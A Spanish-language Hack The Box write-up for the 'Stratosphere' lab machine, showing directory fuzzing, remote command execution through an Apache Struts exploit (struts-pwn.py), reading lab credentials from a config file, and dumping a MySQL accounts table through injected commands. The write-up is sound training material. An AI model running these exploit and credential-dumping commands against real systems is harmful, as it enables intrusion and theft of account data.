

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/stratosphere/index.html · generator: mkdocs

# Stratosphere

![](../../assets/img/Pasted_image_20260831131953.png)

![](../../assets/img/Pasted_image_20260901103127.png)

- 80
Visitamos el sitio web y parece que la web está en desarrollo

![](../../assets/img/Pasted_image_20260831132312.png)

- 8080
En principio nos muestra la misma página

- Vamos a fuzzear directorios
```bash
gobuster dir -u http://10.129.52.14 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt
```

![](../../assets/img/Pasted_image_20260831133220.png)

- Al entrar en */manager* se nos abre un popup de notificación en el navegadorç
Buscamos default credentials pero no conseguimos acceder
Si cancelamos el login nos aparece un error con credenciales de ejemplo tomcat:s3cret pero que no sirven para logearnos

- En */Monitoring* vemos una especiece de página de monitoreo

![](../../assets/img/Pasted_image_20260831133836.png)

Vemos que el recurso es **Welcome.action**

- Buscaremos exploits acerca de recursos .action ya que no me suenan de nada
Buscamos *.action file exploit ->*
Vemos que el propio buscador nos menciona exploits de *Apache Struts*

![](../../assets/img/Pasted_image_20260901104242.png)

- Buscamos exploits en google de apache struts en .action
[https://www.exploit-db.com/exploits/45260](https://github.com/mazen160/struts-pwn)
```bash
python3 struts-pwn.py -u 'http://10.129.52.14/Monitoring/example/Welcome.action' -c id
```

![](../../assets/img/Pasted_image_20260901105724.png)

- No existe curl en la máquina para lanzarnos shell, vamos a intentar buscar otra forma
```bash
ls -la
```

![](../../assets/img/Pasted_image_20260901112852.png)

Vemos un **db_connect** -> vemos su contenido

![](../../assets/img/Pasted_image_20260901113004.png)

Vemos credenciales
admin:admin
ssn_admin:AWs64@on*&

- Intentamos conectarnos por ssh pero las credenciales no son correctas -> Vamos a intentar usar **sqlshow** para conectarnos a la base de datos y enumerar informacion ya que no estamos en una tty interactiva como para usar mysql normal
Vemos que *mysqlshow* existe con
```bash
which mysqlshow
```

```bash
mysqlshow -uadmin -padmin
```

![](../../assets/img/Pasted_image_20260901113245.png)

Vemos las bases de datos con las credenciales **admin:admin**
```bash
mysqlshow -uadmin -padmin users
```

![](../../assets/img/Pasted_image_20260901113333.png)

```bash
mysqlshow -uadmin -padmin users accounts
```

![](../../assets/img/Pasted_image_20260901113406.png)

- Una vez que tenemos los datos de la estructura de la base de datos ya podemos lanzar una query con *mysql* y el parámetro -e
```bash
mysql -uadmin -padmin -e "select * from accounts " users
```

Es importante usar comas simples ' para el -c y comas dobles " para la query del parámetro -e

![](../../assets/img/Pasted_image_20260901121412.png)
